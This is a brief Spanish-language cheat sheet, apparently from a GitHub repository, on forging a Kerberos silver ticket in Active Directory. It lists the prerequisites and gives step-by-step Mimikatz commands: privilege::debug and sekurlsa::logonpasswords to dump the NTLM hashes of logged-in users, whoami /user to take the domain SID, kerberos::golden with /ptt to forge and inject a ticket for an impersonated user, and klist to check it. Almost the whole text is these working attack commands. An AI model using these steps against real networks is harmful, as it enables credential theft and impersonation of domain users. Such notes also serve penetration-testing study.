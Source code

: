 Para crear un silver ticket necesitamos:

- SPN password hash
- Domain SID
- Target SPN


### Conseguir el NTLM hash de un user si está logueado en nuestra misma máquina (siendo admins)

    .\Mimikatz

Luego:

    privilege::debug
Luego

    sekurlsa::logonpasswords


### Conseguir el domain SID

    Whoami /user

Extraemos el SID evadiendo el último segmento

### Creación del ticket

    .\mimikatz.exe

luego:

    privilege::debug

luego:

    kerberos::golden /sid:<sid> /domain:<domain> /ptt /target:<target> /service:<servicio> /rc4:<hash> /user:<user_a_impersonar>

salimos de mimikatz y vemos si el ticket existe en nuestra pc

    klist

Intentamos acceder nuevamente al servicio
